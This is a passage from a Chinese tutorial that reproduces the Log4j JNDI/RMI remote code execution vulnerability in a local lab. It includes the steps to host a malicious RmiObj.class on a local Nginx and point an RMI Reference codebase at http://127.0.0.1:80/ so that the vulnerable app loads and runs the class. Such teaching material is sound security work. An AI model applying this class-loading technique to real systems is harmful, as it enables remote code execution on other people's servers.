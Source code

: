 可以看到在log4j-rmi模块中的RmiServer类中，创建Reference对象时传递的参数与在log4j-all的RmiServer类中创建Reference对象时传递的参数不同。在RmiServer类中创建Reference对象时传递的参数是RmiObj的全类名，而这里传递的是简单类名。细心的读者应该已经发现了，我在log4j-rmi模块中将RmiObj类和RmiServer类都移动到了java目录下，并没有创建Java包。

### 第一次运行程序模拟真实场景

（1）启动log4j-rmi模块下的RmiServer类，会打印出如下日志信息。

```bash
RMI Listener 1099 port
```

说明RMI服务启动成功，并监听了1099端口。

（2）运行log4j-website模块下的Log4jDemo类，输出的日志信息如下所示。

```bash
12:44:23.021 [main] INFO  io.binghe.log4j.Log4jDemo - 输出的信息是:Reference Class Name: RmiObj
```

可以看到，在log4j-website模块下的Log4jDemo类中并没有打印出log4j-rmi模块下的RmiObj类中static静态代码块中输出的信息。

**也就是说，远程站点不会执行骇客本地的代码，真实环境不存在这个漏洞？答案是非也，真实环境也存在远程代码执行漏洞。**

### 改造log4j-rmi模块代码

（1）到链接http://nginx.org/en/download.html下载一个Nginx，这里我下载的是Windows版本的Nginx，版本号是1.22.0，如下所示。

![2022-05-30-010](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-010.png)

（2）将下载后的Nginx进行解压，这里，我将Nginx解压到我本地电脑的D盘下的`Nginx/nginx-1.22.0`目录下，如下所示。

![2022-05-30-011](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-011.png)

（3）使用Maven编译log4j-demo整体功能，找到编译后的log4j-rmi模块下的`target/classes`目录下的RmiObj.class文件，如下所示。

![2022-05-30-012](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-012.png)

（4）将编译后的log4j-rmi模块下的`target/classes`目录下的RmiObj.class文件复制到Nginx的html目录下，如下所示。

![2022-05-30-013](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-013.png)

复制后的效果如下所示。

![2022-05-30-014](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-014.png)

（5）双击Nginx目录下nginx.exe文件启动Nginx，如下所示。

![2022-05-30-015](https://binghe001.github.io/assets/images/hack/log4j/2022-05-30-015.png)

（6）修改log4j-rmi模块下的RmiServer类的代码，将创建Reference对象时，调用Reference类的构造方法的第三个参数修改成`http://127.0.0.1:80/`，如下所示。

```java
Reference reference = new Reference("RmiObj", "RmiObj", "http://127.0.0.1:80/");
```

上述代码表示创建Reference类时，加载了Nginx下的RmiObj.class文件中的RmiObj类。
